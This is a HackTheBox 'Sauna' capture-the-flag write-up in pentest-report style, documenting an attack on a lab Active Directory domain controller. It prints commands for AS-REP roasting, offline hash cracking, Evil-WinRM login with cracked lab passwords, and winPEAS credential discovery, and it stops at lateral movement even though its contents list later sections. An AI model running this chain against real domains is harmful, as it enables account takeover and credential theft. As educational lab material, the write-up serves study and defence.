# Sauna — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Easy       | Windows | Active Directory |

> Writeup of a retired Sauna machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. LDAP and SMB Enumeration](#12-ldap-and-smb-enumeration)
  * [1.3. Web Application Enumeration](#13-web-application-enumeration)
  * [1.4. Employee Name Harvesting and Username Generation](#14-employee-name-harvesting-and-username-generation)
  * [2.1. AS-REP Roasting](#21-as-rep-roasting)
  * [2.2. Hash Cracking](#22-hash-cracking)
  * [2.3. Initial Foothold via WinRM](#23-initial-foothold-via-winrm)
  * [2.4. User Flag](#24-user-flag)
  * [3.1. Post-Exploitation Credential Discovery](#31-post-exploitation-credential-discovery)
  * [3.2. Lateral Movement to svc_loanmgr](#32-lateral-movement-to-svc_loanmgr)
  * [3.3. BloodHound Analysis](#33-bloodhound-analysis)
  * [3.4. DCSync Attack](#34-dcsync-attack)
  * [3.5. Pass-the-Hash and Full Domain Compromise](#35-pass-the-hash-and-full-domain-compromise)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Sauna / IP: 10.129.95.180`
**Platform:** `HackTheBox`
**Date Completed:** `September 26, 2026`
**Assessment Type:** `Active Directory / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Sauna environment. The test was carried out from the perspective of a complete outsider — no credentials, no access, and no prior knowledge of the environment.

The results are serious. Starting from zero access, our team was able to achieve complete administrative control of the organization's domain and all systems within it. In a real-world scenario, an attacker with this level of access could read or destroy any data held within the organization, take over any user account, and cause severe disruption to business operations — all remotely and without physical access.

Four security issues were identified that made this possible. They relate to information publicly available on the organization's own website, a misconfigured account setting that made one user's password recoverable without even attempting to log in, a second set of credentials stored insecurely on the server, and an account that had been granted authority to replicate all password data from the domain's central directory. None of these require purchasing new software to resolve — all can be addressed through changes to existing configuration and policy.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address                  | Description                                                         |
| ---------------------------------------- | ------------------------------------------------------------------- |
| `EGOTISTICAL-BANK.LOCAL / 10.129.95.180` | Target machine — Windows Server Domain Controller (SAUNA)           |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — LDAP, SMB, and web enumeration to map the attack surface.
3. **OSINT & Username Generation** — harvesting employee names from the public website and generating probable username formats.
4. **Exploitation** — AS-REP roasting to obtain and crack an offline Kerberos hash for initial foothold.
5. **Privilege Escalation** — AutoLogon credential recovery via winPEAS and DCSync via svc_loanmgr's replication privileges.
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool                  | Purpose                                                                           |
| --------------------- | --------------------------------------------------------------------------------- |
| `Nmap`                | Port scanning and service enumeration                                             |
| `windapsearch`        | Unauthenticated LDAP user enumeration                                             |
| `GetADUsers.py`       | Unauthenticated domain user enumeration via Impacket                              |
| `smbclient`           | SMB share enumeration                                                             |
| `ffuf`                | Web directory and file fuzzing                                                    |
| `Wappalyzer`          | Web technology fingerprinting                                                     |
| `username-anarchy`    | Generating probable AD username formats from harvested full names                 |
| `GetNPUsers.py`       | AS-REP roasting — requesting Kerberos hashes for accounts without pre-auth        |
| `hashcat`             | Offline password hash cracking (mode 18200 — Kerberos 5 AS-REP etype 23)         |
| `Evil-WinRM`          | Credential-based remote shell access via WinRM                                    |
| `winPEASx64`          | Windows privilege escalation enumeration — discovered AutoLogon credentials       |
| `bloodhound-python`   | Active Directory data collection for BloodHound attack path analysis              |
| `BloodHound`          | AD privilege path visualization — identified DCSync rights on svc_loanmgr        |
| `secretsdump.py`      | DCSync attack to extract the domain Administrator NTLM hash                       |
| `psexec.py`           | Pass-the-hash remote execution as Administrator                                   |

---

## Assessment Summary (Findings Overview)

Employee full names published on the organization's website were used to generate plausible domain usernames. One account had Kerberos pre-authentication disabled, allowing its password hash to be retrieved and cracked offline without any prior authentication. A foothold as that user revealed a second account's credentials stored in the Windows AutoLogon registry keys. BloodHound analysis confirmed that the second account held DCSync rights over the domain, enabling extraction of all password hashes — including the domain Administrator's — and full domain compromise. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 2     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| #  | Severity | Finding Name                                                                       |
| -- | -------- | ---------------------------------------------------------------------------------- |
| 1  | Critical | DCSync Privileges on svc_loanmgr Enabling Full Domain Hash Extraction              |
| 2  | High     | Kerberos Pre-Authentication Disabled on fsmith (AS-REP Roastable)                 |
| 3  | High     | AutoLogon Credentials Stored in Plaintext in Windows Registry                     |
| 4  | Medium   | Employee Full Names Enumerable from Public Website                                 |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to domain Administrator compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap 10.129.95.180 -sC -sV -Pn
```



**Findings:** The target is a Windows Server Domain Controller for the `EGOTISTICAL-BANK.LOCAL` domain, hostname `SAUNA`. Key open ports include:

| Port    | Service     | Significance                                                  |
| ------- | ----------- | ------------------------------------------------------------- |
| 80      | HTTP (IIS)  | Web application — immediate enumeration target                |
| 88      | Kerberos    | Authentication — confirms DC role; AS-REP roasting possible   |
| 139/445 | SMB         | File sharing and domain authentication                        |
| 389     | LDAP        | Directory services — domain object enumeration                |
| 5985    | WinRM       | Remote management — foothold vector if credentials are found  |

The combination of a public-facing web server and a Kerberos service provides two distinct attack angles: content enumeration on port 80 and Kerberos-based attacks on port 88. Host entries were added for name resolution:

```
echo "10.129.95.180 EGOTISTICAL-BANK.LOCAL" | sudo tee -a /etc/hosts
```

---

### 1.2. LDAP and SMB Enumeration

Unauthenticated LDAP and SMB enumeration was attempted to determine whether any user or share information was accessible without credentials:

```
sudo python3 ./windapsearch.py -d egotistical-bank-local --dc-ip 10.129.95.180 -U
```



```
GetADUsers.py egotistical-bank.local/ -dc-ip 10.129.95.180 -debug
```



```
smbclient -L \\\\10.129.95.180 -N
```



**Findings:** All three unauthenticated enumeration paths returned nothing actionable. The LDAP server accepted an anonymous bind but disclosed no user accounts. The SMB server allowed anonymous login but exposed no shares. With no credentials recoverable from these services, the web application on port 80 became the next focus.

---

### 1.3. Web Application Enumeration

Navigating to `http://10.129.95.180/` revealed the Egotistical Bank corporate website:



Wappalyzer was used to fingerprint the technology stack:



**Findings:** The application runs on IIS 10.0 on Windows Server with no notable third-party frameworks. Directory fuzzing was performed to discover additional pages:

```
ffuf -w /usr/share/wordlists/dirb/common.txt:fuzz -u http://10.129.95.180/fuzz
```



No sensitive files or admin panels were found. Manual review of the site's navigation links revealed an `about.html` page:


**Findings:** The About Us page publicly lists the full names of six employees. In Active Directory environments, domain usernames are directly predictive from employee names. These six names provide sufficient input to generate a targeted username list for Kerberos-based attacks.

---

### 1.4. Employee Name Harvesting and Username Generation

The six employee full names were saved to `fullnames.txt`. The `username-anarchy` tool was used to generate common Active Directory username formats:

```
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt
cat unames.txt
```



**Result:** 24 plausible username variants were generated covering the most common Active Directory naming conventions for all six employees.

---

### 2.1. AS-REP Roasting

With a username list available, `GetNPUsers.py` was used in a loop to check each username for Kerberos pre-authentication being disabled. When this setting is absent on an account, the domain controller will issue an AS-REP ticket to any requestor — even without authentication — encrypted with that account's password hash:

```
while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass \
  -dc-ip 10.129.95.180 >> hash.txt; done < unames.txt
cat hash.txt
```



**Result:** The account `fsmith` has Kerberos pre-authentication disabled. An AS-REP hash was returned and saved to `hash.txt`. This hash can be cracked offline with no further interaction with the domain controller and no risk of account lockout.

---

### 2.2. Hash Cracking

The correct hashcat mode for Kerberos 5 AS-REP etype 23 hashes was identified:

```
hashcat --help | grep kerberos
```



```
hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force
cat pass.txt
```



**Credential recovered:** `fsmith` : `Thestrokes23`

---

### 2.3. Initial Foothold via WinRM

The recovered credentials were tested against WinRM on port 5985:

```
evil-winrm -i 10.129.95.180 -u fsmith -p 'Thestrokes23'
whoami
```

**Result:** Authentication was successful. An interactive PowerShell session was obtained as `egotisticalbank\fsmith`.

---

### 2.4. User Flag

```powershell
cd c:\users\fsmith\desktop
cat user.txt
```



**user.txt:** `f4269befbc2f8d834a09a9571945c132`

---

### 3.1. Post-Exploitation Credential Discovery

`winPEAS` was uploaded and executed to automate privilege escalation enumeration:

```powershell
upload winPEASx64.exe
.\winPEASx64.exe
```



**Findings:** winPEAS identified AutoLogon credentials stored in the Windows registry. The Windows AutoLogon feature stores a username and password in plaintext in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` so that a specific user is signed in automatically at boot. These registry values are readable by any authenticated user with access to the system.

**Credential recovered:** `svc_loanmanager` : `Moneymakestheworldgoround!`

---

### 3.2. Lateral Movement to svc_loanmgr

The recovered credentials were tested against WinRM. The AutoLogon entry specifies `svc_loanmanager` but the active domain account name is `svc_loanmgr`:

```
evil-winrm -i 10.129.95.180 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
whoami
```

